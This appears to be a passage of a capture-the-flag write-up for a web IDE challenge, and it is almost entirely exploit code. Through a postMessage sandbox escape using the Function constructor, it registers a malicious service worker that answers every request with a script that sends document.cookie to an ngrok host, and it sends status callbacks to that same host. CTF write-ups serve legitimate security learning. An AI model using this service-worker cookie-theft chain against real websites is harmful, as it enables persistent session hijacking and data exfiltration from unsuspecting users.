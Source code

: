 ```html
		body: 'self.addEventListener(\"fetch\", e => {e.respondWith(new Response(\"<script> navigator.sendBeacon(\\\\'https://5e2dbf30a432.ngrok.io/a=\\\\', document.cookie)</scri'+'pt>\",{headers:{\\\\'content-type\\\\':\\\\'text/html\\\\'}})})'})

	// convert response(the id) to text
	.then(a => a.text()
	// send off the response to vps
	.then(a => fetch('https://5e2dbf30a432.ngrok.io/q=' + a)))

	`)();", '*');

</script>
```
2) The serviceworker script(body of the above request)

```javascript
self.addEventListener("fetch", e => {
	e.respondWith(
		new Response("<script> navigator.sendBeacon('https://5e2dbf30a432.ngrok.io/a=', document.cookie)</scri'+'pt>",
			{
				headers:{'content-type':'text/html'}
			}

		)
	)
});
```

3) Registering serviceworker

```html
<iframe src='https://web-ide.dicec.tf/sandbox.html'></iframe> <!-- iframe to /sandbox.html -->
<script>

// post message to the iframe
document.querySelector('iframe').contentWindow.postMessage("

// circumvent proxy
[].constructor.constructor(`
	// create script tag to append to the iframe with SW registration code
	a=document.createElement('script');
	a.appendChild(document.createTextNode('
		// SW registration code and some callbacks for status reporting
		navigator.serviceWorker.register(\"/ide/saves/9fa496ae2b205061.js\")
		.then(() => new Promise(()=>{ fetch(\"https://5e2dbf30a432.ngrok.io/success\")
		.then(() => {setTimeout(() => {location = \"https://web-ide.dicec.tf/ide/saves/\"}, 1000)})})
		.then(() => fetch(\"https://5e2dbf30a432.ngrok.io/success\")))
		.catch((e) => fetch(\"https://5e2dbf30a432.ngrok.io/e=\"+e))
	'));
	document.body.appendChild(a);`)();", '*');

</script>

```
